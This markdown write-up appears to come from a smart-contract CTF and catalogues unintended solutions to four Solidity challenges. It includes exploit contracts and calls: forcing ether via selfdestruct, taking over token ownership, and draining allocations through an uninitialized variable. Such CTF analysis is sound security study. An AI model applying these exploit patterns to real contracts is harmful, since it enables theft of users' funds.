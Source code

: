 # Overview of unintended exploit patterns

## Baraa42: sending ETH by self destruct

Reported by

- lucyoa
- plotchy
- RomiRand
- teryanarmen
- Thro77le
- ych18

Baraa42 his Setup.sol

```
    function isSolved() external view override returns (bool) {
        bool condition1 = address(casino).balance >
            casino.totalDeposits() +
                casino.totalPrize() +
                casino.totalJackpot();
        bool condition2 = address(casino).balance >
            casino.totalDeposits() +
                (casino.totalPrize() * 25) /
                100 +
                casino.totalJackpot();
        bool gameOn = casino.gameOn();

        return (gameOn && condition1) || (!gameOn && condition2);
    }
```

Function `isSolved` returns `true` if balance of casino is higher than sum of totalDeposits, totalPrice and totalJackpot (these values are 0 in the beginning). This can be easily exploited by triggering `selfdestruct` on own contract and sending funds to casino.

```
pragma solidity 0.7.3;


contract Pwn {
    function destroy(address target) external payable {
        selfdestruct(payable(target));
    }
}
```

Execute:

```
    const Pwn = await hre.ethers.getContractFactory("Pwn");
    const pwn = await Pwn.deploy();

    await pwn.destroy(casino.address, {value: hre.ethers.utils.parseEther("1")});
```

## 0xNazgul: solvable in unintended way

> No extra point rewarded, as the CTF was marked as unsolvable and by finding this extra vulernability an extra point is aready earned.

Reported by

- plotchy
- RomiRand
- teryanarmen

Intended path of having challenger be delegated 100 tokens and becoming owner is not necessary for the solution.

You can approve and transfer 0xNazgul's EOA-minted tokens and delegate them back to 0xNazgul's EOA.
This makes 0xNazgul have more numCheckpoints than the Setup contract, and you can transferOwnership and selfdestruct it from there to complete the challenge.

```
constructor(FloraToken _challenge, Setup _setup) payable {
        challenge = _challenge;
        setup = _setup;

        nazgul = address(0x9678408E1B126A985D61a0A6c99ae98AbF4c85B3); //Hardcoded as it is 0xNazgul's EOA that deployed on Goerli before fork
        setup.approveFor(nazgul, address(this), type(uint256).max);
        _challenge.transferFrom(nazgul, address(this), 100); //not sure if i want 100 tokens yet

    }
    function finalize() external {
        challenge.delegate(nazgul);
        challenge.transferOwnership(nazgul);
    }

```

## naps62: missing require on `write0` function

Reported by

- RomiRand

I bypassed quite a chunk of functions to solve this. I didn't deal with the bets mechanic (`ecrecover` etc.) at all. The `shiftLeft` function only operates on the 2nd+ byte. However this can be circumvented by prepending a 0x00-byte (which will not influence the uint generation later). Maybe this was meant to protect the contract.

Of course this could also be the intended way; It just seemed a bit odd to me that I didn't have to execute those parts of the challenge.

```javascript
// SPDX-License-Identifier: None
pragma solidity 0.7.2;

import './Setup.sol';

contract Exploit {
    constructor(BuiltByANoob challenge) {
        // target: 0010B57E6DA0

        // could wrap this in a nice loop if I've too much time
        challenge.write0();

        challenge.write255();
        challenge.setHalfByte(bytes1(0x01));
        challenge.shiftLeft(4);

        challenge.write255();
        challenge.setHalfByte(bytes1(0x0B));
        challenge.shiftLeft(4);
        challenge.setHalfByte(bytes1(0x05));

        challenge.write255();
        challenge.setHalfByte(bytes1(0x07));
        challenge.shiftLeft(4);
        challenge.setHalfByte(bytes1(0x0E));

        challenge.write255();
        challenge.setHalfByte(bytes1(0x06));
        challenge.shiftLeft(4);
        challenge.setHalfByte(bytes1(0x0D));

        challenge.write255();
        challenge.setHalfByte(bytes1(0x0A));
        challenge.shiftLeft(4);
    }
}
```

# band0x "BecomeMaster" Unintended vulnerability

Reported by

- Plotchy

Intended path is

```
challenge.allocate();
challenge.takeMasterRole();
challenge.collectAllocations();
```

However, there is an unintended path.
Inside `allocate()` an uninitialized `caller` var is used to set an array element inside `allocations[]`. Instead of being saved with the msg.sender address, it is saved to the 0x0 address.
Alongside this, there is no `allocations[]` balance update within `sendAllocation()`, so instead of using the `collectAllocations()` path, you can use `challenge.sendAllocation(payable(address(0x0)))` twice.

```
challenge.allocate{value: 0.001 ether}();
challenge.takeMasterRole();
challenge.sendAllocation(payable(address(0x0)));
challenge.sendAllocation(payable(address(0x0)));
```
